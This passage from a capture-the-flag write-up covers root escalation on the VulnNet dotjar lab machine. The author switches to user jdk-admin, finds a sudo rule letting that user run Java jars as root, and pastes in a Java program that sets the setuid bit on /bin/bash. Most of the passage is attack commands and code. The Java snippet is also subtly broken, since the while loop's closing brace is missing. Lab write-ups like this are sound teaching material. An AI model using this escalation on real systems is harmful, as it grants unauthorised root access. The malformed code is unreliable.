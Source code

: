 ## Privilege Escalation

We find the password for user jdk-admin, let's switch to them and grab the first flag:

```text
web@vulnnet-dotjar:/dev/shm$ su jdk-admin
Password: 

jdk-admin@vulnnet-dotjar:/dev/shm$ cat /home/jdk-admin/user.txt 
THM{1ae87fa6ec2cd9f840c68cbad78e9351}
```

One of the first things I check after a getting access to a new user is sudo rights:

```text
jdk-admin@vulnnet-dotjar:/dev/shm$ sudo -l
Matching Defaults entries for jdk-admin on vulnnet-dotjar:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
```

## Java Exploit

Excellent, our jdk-user can run any java file as root. A search found a java program that alters the permissions on bash. Nice and simple let's paste it straight in to the server:

```text
jdk-admin@vulnnet-dotjar:/dev/shm$ cat <<EOF >>root.java 
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.IOException;

public class root {
    public static void main(String[] args) {
        String command = "chmod +s /bin/bash";
        try {
            Process process = Runtime.getRuntime().exec(command);
            BufferedReader reader = new BufferedReader(
                new InputStreamReader(process.getInputStream()));
            String line;
            while ((line = reader.readLine()) != null) {
                System.out.println(line);
            reader.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
EOF
```
